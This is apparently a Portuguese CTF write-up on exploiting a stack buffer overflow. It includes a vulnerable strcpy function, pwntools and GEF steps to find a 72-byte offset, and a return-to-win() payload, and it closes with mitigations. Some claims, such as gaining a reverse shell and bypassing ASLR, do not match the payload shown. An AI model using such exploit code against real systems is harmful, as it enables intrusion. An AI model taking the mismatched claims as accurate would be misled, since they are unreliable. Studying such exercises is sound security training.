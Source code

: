 ```yaml
---
title: "CTF Write-up: Buffer Overflow Exploitation"
publishedAt: "2024-01-15"
summary: "Análise detalhada de uma vulnerabilidade de buffer overflow em um desafio de CTF, incluindo técnicas de exploração e mitigação."
images:
  - "/images/projects/ctf-writeup/cover-01.jpg"
  - "/images/projects/ctf-writeup/exploit-01.jpg"
  - "/images/projects/ctf-writeup/exploit-02.jpg"
team:
  - name: "Leandro Gabriel"
    role: "Security Researcher"
    avatar: "/images/avatar.jpg"
    linkedIn: "https://www.linkedin.com/in/leandro--gabriel/"
---
```


## Visão Geral

Este write-up detalha a exploração de uma vulnerabilidade de buffer overflow em um desafio de CTF. O objetivo era obter execução de código arbitrário através de técnicas de exploração de memória.

## Análise da Vulnerabilidade

### Identificação do Bug

O programa apresentava uma vulnerabilidade clássica de buffer overflow na função `vulnerable_function()`:

```c
void vulnerable_function(char *input) {
    char buffer[64];
    strcpy(buffer, input); // Vulnerabilidade aqui!
}
```

### Técnicas de Exploração

1. **Fuzzing**: Identificação do ponto de crash
2. **Pattern Creation**: Criação de padrão para encontrar offset
3. **Shellcode Development**: Desenvolvimento de payload customizado
4. **Return Address Overwrite**: Sobrescrita do endereço de retorno

## Ferramentas Utilizadas

- **GDB**: Debugger para análise dinâmica
- **GEF**: Extensão do GDB para análise de exploits
- **Python**: Scripts de fuzzing e payload generation
- **Pwntools**: Framework para desenvolvimento de exploits

## Desenvolvimento do Exploit

### 1. Fuzzing e Pattern Creation

```python
from pwn import *

# Criando padrão para encontrar offset
pattern = cyclic(100)
p = process('./vulnerable_program')
p.sendline(pattern)
p.interactive()
```

### 2. Encontrando o Offset

```python
# Usando GEF para encontrar offset
gef> pattern search $rsp
[+] Searching for pattern
[+] Found at offset 72
```

### 3. Desenvolvimento do Payload

```python
# Payload final
payload = b"A" * 72  # Padding
payload += p64(0x401196)  # Endereço da função win()
```

## Resultados

- ✅ **Exploit bem-sucedido**: Obtenção de shell reverso
- ✅ **Flag capturada**: `flag{buff3r_0v3rfl0w_3xpl01t3d}`
- ✅ **Análise completa**: Documentação de todo o processo

## Aprendizados

1. **Importância do ASLR**: Como contornar proteções de memória
2. **Técnicas de Debugging**: Uso eficiente de ferramentas de análise
3. **Desenvolvimento de Payloads**: Criação de shellcodes customizados
4. **Análise de Binários**: Técnicas de engenharia reversa

## Mitigações

- **Stack Canaries**: Proteção contra buffer overflow
- **ASLR**: Randomização de endereços
- **DEP/NX**: Prevenção de execução de código na stack
- **Code Review**: Análise estática de código

## Conclusão

Este write-up demonstra a importância de entender vulnerabilidades de memória e como técnicas de exploração podem ser aplicadas em cenários realistas de CTF. O conhecimento adquirido é fundamental para desenvolvimento de software seguro. 
